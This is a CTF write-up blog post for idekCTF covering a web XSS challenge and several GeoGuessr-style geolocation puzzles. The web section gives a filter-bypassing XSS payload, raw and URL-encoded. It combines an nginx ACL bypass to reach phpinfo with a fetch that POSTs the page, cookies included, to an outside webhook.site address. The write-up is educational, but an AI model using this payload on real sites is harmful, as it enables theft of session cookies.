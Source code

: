 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geoguessr]
---
```


Notes on solving the web challenge and some GeoGuessr-style challenges (had a lot of luck).

## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

My teammate solved and submitted the flag about 36 minutes before I did xD.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```nginx
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~ (GeoGuessr-style)

This is some notes on my process of solving some of the challenges with the team (also with a lot of luck involved). It may contain some errors due to limited knowledge on different locations, and just write about observations and knowledge gathered during solving the challenge.

*Image sizes are reduced in the blogpost.*

Some useful resources for GeoGuessr-style challenges:

1. [GeoHints](https://geohints.com/) Categorised by different meta or features, useful for example to look up which country the Google car in the task could be in.

2. [Plonk It](https://www.plonkit.net/guide) Text and image guides categorised by countries. Useful to confirm countries or try to region-guess. Google "site:www.plonkit.net stuff" as example in drunk_driving task below

3. [GeoTips](https://geotips.net/) Similiar to Plonk It

4. [overpass turbo](https://overpass-turbo.eu/) Powerful to query features

5. Many of the shared docs e.g. for country/region specific details

### drunk_driving (medium, Rwanda)

Saw lamppost with "NR 10 166" painted on it.

![Paint on the lamppost in the challenge](/assets/image/idekctf2024/rwanda-lamppost-paint.png)

We could not decide the country to start with through some meta information.

I Googled `site:www.plonkit.net nr`, and it linked to a GeoGuessr guide page on Rwanda. With the road number NR 10, teammate solved the task.

![Screenshot of the Google search result](/assets/image/idekctf2024/nr-google-search-result.png)

### beach_property (medium, Brazil)

Find the very unique-looking building, screenshot and search the image with Google Lens, find it to be the Veleiros Mar hotel in São Luís, Brazil. Then my teammate marked the location on the map to complete this task.

![Screenshot of Veleiros Mar hotel in the challenge](/assets/image/idekctf2024/veleiros-mar.png)

### idek_islands (medium, U.S. Virgin Islands)

Teammates identified through meta (Google car etc.) the location is in U.S. Virgin Islands, and likely to be in the island in the north. The location is by the coast, with coastline kinda concaves, and with buildings nearby. The shadows points inwards the land.

I started searching through the south coast of the two main islands in the north of U.S. Virgin Islands, by looking at the street view coverage finding the roads close to coast, and sometimes enter into street view to check. Eventually found a road with street view coverage near the coast, and the buildings in the satellite view looks matching the ones in the image. It did not take too long. Entered street view and confirmed the location matches.

### rise_above (hard, Indonesia)

It took a long time to solve this one.

Teammates identified the location in in Indonesia. There is top of a church in the image, signs on the other building saying "RUMAH KEPALA JAGA 1", and teammate also identified the "Indonesian Democratic Party of Struggle" flag in the image.

I position Google maps at Indonesia and looked up "rumah kepala jaga", it showed the name with other numbers but not "1". I looked through some of the locations however non of them was the location. They were mostly located east-most of Sulawesi Utara on one of the main island. There were also a village with many of the same flags in the image, however that village had a church looked different. Then I zoomed out the map a bit and looked up "church" in the area, and the 2nd church I clicked on and entered street view to see was the church I was looking for (extremely lucky I guess).
